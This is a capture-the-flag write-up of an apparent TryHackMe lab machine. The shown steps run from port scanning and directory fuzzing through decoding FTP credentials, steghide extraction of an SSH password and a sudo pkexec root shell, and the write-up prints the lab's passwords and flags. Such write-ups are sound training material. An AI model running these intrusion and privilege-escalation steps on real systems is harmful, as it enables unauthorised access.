








## TL;DR

In this challenge we login to the `ftp` service, which its password we found after fuzzing the website. Then, we downloaded several `images` that after some playing gives us the ssh password for user `slade`.

Lastly, we move to `root` using sudo on `pkexec`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh, port `80` with apache http server, port `111` with rpc and port `41596` with something unknown.
```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                                                               
21/tcp    open  ftp     syn-ack ttl 62 vsftpd 3.0.2                                                                                                                                          
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)                                                                                                          
| ssh-hostkey:                                                                                                                                                                               
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)                                                                                                                               
| ssh-dss AAAAB3NzaC1kc3MAAACBAOZ67Cx0AtDwHfVa7iZw6O6htGa3GHwfRFSIUYW64PLpGRAdQ734COrod9T+pyjAdKscqLbUAM7xhSFpHFFGM7NuOwV+d35X8CTUM882eJX+t3vhEg9d7ckCzNuPnQSpeUpLuistGpaP0HqWTYjEncvDC0XMYBy
f7gbqWWU2pe9HAAAAFQDWZIJ944u1Lf3PqYCVsW48Gm9qCQAAAIBfWJeKF4FWRqZzPzquCMl6Zs/y8od6NhVfJyWfi8APYVzR0FR05YCdS2OY4C54/tI5s6i4Tfpah2k+fnkLzX74fONcAEqseZDOffn5bxS+nJtCWpahpMdkDzz692P6ffDjlSDLNAPn
0mrJuUxBFw52Rv+hNBPR7SKclKOiZ86HnQAAAIAfWtiPHue0Q0J7pZbLeO8wZ9XNoxgSEPSNeTNixRorlfZBdclDDJcNfYkLXyvQEKq08S1rZ6eTqeWOD4zGLq9i1A+HxIfuxwoYp0zPodj3Hz0WwsIB2UzpyO4O0HiU6rvQbWnKmUaH2HbGtqJhYuPr7
6XxZtwK4qAeFKwyo87kzg==                                                                                                                                                                      
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRbgwcqyXJ24ulmT32kAKmPww+oXR6ZxoLeKrtdmyoRfhPTpCXdocoj0SqjsETI8H0pR0OVDQDMP6lnrL8zj2u1yFdp5/bDtgOnzfd+70Rul+G7Ch0uzextmZh7756/VrqKn+rdEVWTqqRkoUmI0T
4eWxrOdN2vzERcvobqKP7BDUm/YiietIEK4VmRM84k9ebCyP67d7PSRCGVHS218Z56Z+EfuCAfvMe0hxtrbHlb+VYr1ACjUmGIPHyNeDf2430rgu5KdoeVrykrbn8J64c5wRZST7IHWoygv5j9ini+VzDhXal1H7l/HkQJKw9NSUJXOtLjWKlU4l+/xEk
XPxZ                                                                                                                                                                                         
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)                                                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPfrP3xY5XGfIk2+e/xpHMTfLRyEjlDPMbA5FLuasDzVbI91sFHWxwY6fRD53n1eRITPYS1J6cBf+QRtxvjnqRg=
|   256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)                                                             
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDexCVa97Otgeg9fCD4RSvrNyB8JhRKfzBrzUMe3E/Fn                                            
80/tcp    open  http    syn-ack ttl 62 Apache httpd                                                                           
|_http-server-header: Apache                                                                                                  
|_http-title: Purgatory                                                                                                       
| http-methods:                                                                                                               
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                  
111/tcp   open  rpcbind syn-ack ttl 62 2-4 (RPC #100000)                                                                      
| rpcinfo:                                                         
|   program version    port/proto  service                     
|   100000  2,3,4        111/tcp   rpcbind                    
|   100000  2,3,4        111/udp   rpcbind                     
|   100000  3,4          111/tcp6  rpcbind                     
|   100000  3,4          111/udp6  rpcbind                     
|   100024  1          38512/udp   status                                                     
|   100024  1          39975/tcp6  status                                                     
|   100024  1          41596/tcp   status                                                     
|_  100024  1          41740/udp6  status                                                     
41596/tcp open  status  syn-ack ttl 62 1 (RPC #100024)                                        
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
```

I added `lianyu.thm` to my `/etc/hosts

### Find ssh password hiding inside image downloaded from ftp service, secured with password inside corrupted image

I first started with fuzzing and find the endpoint `/island`:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu]                                                                                                                 
└─$ ffuf -u 'http://lianyu.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403                                                
                                                                                                                                                 
        /'___\  /'___\           /'___\                                                                                                          
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                          
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                         
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                         
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                          
          \/_/    \/_/   \/___/    \/_/                                                                                                          
                                                                                                                                                 
       v2.1.0-dev                                                                                                                                
________________________________________________                                                                                                 
                                                                                                                                                 
 :: Method           : GET                                                                                                                       
 :: URL              : http://lianyu.thm/FUZZ                                                                                                    
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt                                                                   
 :: Follow redirects : false                                                                                                                     
 :: Calibration      : false                                                                                                                     
 :: Timeout          : 10                                                                                                                        
 :: Threads          : 40                                                                                                                        
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                      
 :: Filter           : Response status: 403                                                                                                      
________________________________________________                                                                                                 
                                                                                                                                                 
island                  [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 230ms]                                                           
:: Progress: [20481/20481] :: Job [1/1] :: 198 req/sec :: Duration: [0:02:10] :: Errors: 0 ::
```

I went to `/island`, we can see in the source code some word: `vigilante`.



Then, I fuzzed `island` too:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu]
└─$ ffuf -u 'http://lianyu.thm/island/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lianyu.thm/island/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

2100                    [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 231ms]
```

In the source code, it sends us to search for some `.ticket` file



Let's use the `-e` flag at `ffuf`:

```bash
┌──(agonen㉿kali)-[~/thm/LianYu]
└─$ ffuf -u 'http://lianyu.thm/island/2100/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -fc 403 -e .ticket

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lianyu.thm/island/2100/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Extensions       : .ticket 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

green_arrow.ticket      [Status: 200, Size: 71, Words: 10, Lines: 7, Duration: 207ms]
```

I went to the next URL:
```bash
http://lianyu.thm/island/2100/green_arrow.ticket
```



we got some encoded string `RTy8yhBQdscX`. With CyberChef I found that it is base58 encoded, let's decode it:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu]
└─$ echo -e 'RTy8yhBQdscX' | base58 -d 
!#th3h00d
```

Now, we got credentials for ftp:
```bash
vigilante:!#th3h00d
```

I downloaded all files from the ftp service using `wget`:
```bash
wget -m ftp://vigilante@lianyu.thm --password '!#th3h00d'
```

I tried to open the file `Leave_me_alone.png`, but its header is broken.
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ file Leave_me_alone.png 
Leave_me_alone.png: data
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ file Queen\'s_Gambit.png 
Queen's_Gambit.png: PNG image data, 1280 x 720, 8-bit/color RGBA, non-interlaced
```

Let's copy the header from `file Queen\'s_Gambit.png`, and paste it at `Leave_me_alone.png`, i copy only the first 16 bytes.
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ xxd -g16 Queen\'s_Gambit.png | head -n1
00000000: 89504e470d0a1a0a0000000d49484452  .PNG........IHDR
```

Now, we'll copy the header without spaces `89504e470d0a1a0a0000000d49484452`, and paste it to replace the header of the corrupted image:
```bash
hexedit Leave_me_alone.png
```

Just save it with *Ctrl+x* -> *Yes*



Now the image isn't broken:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ file Leave_me_alone.png    
Leave_me_alone.png: PNG image data, 845 x 475, 8-bit/color RGBA, non-interlaced
```


Surprisingly, the password is `password`.
Using this password we can extract the data from `aa.jpg`:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ steghide extract -sf aa.jpg -p 'password'
wrote extracted data to "ss.zip".
```

Now, let's unzip the file `ss.zip`:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ unzip ss.zip              
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado
```

Inside `shado`, we can find the ssh password for user 
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ cat shado     
M3tahuman
```

I didn't manage to find any user to deal with. I went back to the ftp service, logged in again, and try to find more. 

I change dir one step up, and found that there is user `slade`.



Another way was to download `/etc/passwd` and view its content:
```bash
┌──(agonen㉿kali)-[~/thm/LianYu/lianyu.thm]
└─$ tail passwd 
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:104:109::/run/uuidd:/bin/false
Debian-exim:x:105:110::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
slade:x:1000:1000:slade,,,:/home/slade:/bin/bash
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:110:118:ftp daemon,,,:/srv/ftp:/bin/false
vigilante:x:1001:1001:,,,:/home/vigilante:/bin/bash
```

Anyway, let's try to connect to `slade` with the password `M3tahuman`
```bash
ssh slade@lianyu.thm # M3tahuman
```



and the user flag:
```bash
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak
```

### Privilege Escalation to Root using sudo on pkexec

I checked for sudo permissions, we have on `pkexec`:
```bash
slade@LianYu:~$ sudo -l
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

I googled and found this [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/).

Just execute this line and spawn root shell:
```bash
sudo /usr/bin/pkexec /bin/bash
```



```bash
root@LianYu:~# cat /root/root.txt  
                          Mission accomplished


You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 


THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```


